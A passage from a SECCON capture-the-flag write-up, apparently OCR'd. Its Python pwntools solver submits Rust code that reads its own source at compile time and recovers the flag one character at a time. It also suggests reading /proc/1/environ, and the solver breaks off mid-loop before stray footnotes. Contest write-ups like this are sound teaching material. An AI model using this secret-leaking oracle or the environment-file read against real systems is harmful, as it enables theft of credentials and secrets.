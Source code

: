 ```rust
        i += 1;
    }
    assert!(false); // not found
}
```

Finally, you can get the entire flag string using this function.

As another solution, you can also use `/proc/1/environ` instead of `file!()`.

### Solver

```python
import os
import pwn
import string

pwn.context.log_level = "error"


def communicate(program: str):
    assert len(program) <= 512
    io = pwn.remote(os.getenv("SECCON_HOST"), os.getenv("SECCON_PORT"))
    io.sendlineafter(b"):", program.encode())
    io.sendline(b"__EOF__")

    res = io.recvall().decode().strip()
    io.close()
    return res


TEMPLATE = """
}

static _CTFE: () = _contains(b"{{QUERY}}");

const fn _contains(query: &[u8]) {
    let content = include_bytes!(file!());

    let mut i = 350;
    while i < content.len() {
        let mut j = 0;
        while j < query.len() && i + j < content.len() && content[i + j] == query[j] {
            j += 1;
        }
        if j == query.len() {
            return; // found!
        }
        i += 1;
    }
    assert!(false); // not found
""".strip().replace("    ", "")


def oracle(query: str) -> bool:
    program = TEMPLATE.replace("{{QUERY}}", query)
    return ":)" in communicate(program)


CHARS = "}_" + string.ascii_lowercase + string.digits
known = "SECCON{"
while not known.endswith("}"):
    for c in CHARS:
        if oracle(known + c):
```

[^hidden-note-01]: https://arxiv.org/pdf/2106.05123.pdf
[^hidden-note-02]: Strictly speaking, there are more conditions for the shuffle.
  [CUSTOM_KEY]: true;
  [CUSTOM_KEY]: true;
[^node-ppjail-01]: That's because the default value for `target` option of `tsc` is ES3. ES3 is a very old ECMAScript version.<br>ref. https://www.typescriptlang.org/tsconfig/#target